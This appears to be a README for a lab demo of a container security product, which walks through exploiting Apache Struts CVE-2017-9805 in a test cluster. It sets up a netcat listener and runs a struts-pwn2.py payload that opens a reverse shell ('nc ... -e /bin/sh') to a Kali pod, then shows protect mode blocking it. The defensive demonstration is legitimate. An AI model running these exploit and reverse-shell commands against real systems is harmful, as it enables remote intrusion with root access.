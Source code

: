 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_kali = true
install_order     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `monitor mode`

4. note the ClusterIP for the kali workload
```
kubectl get service/kali-kali
```

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the reverse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
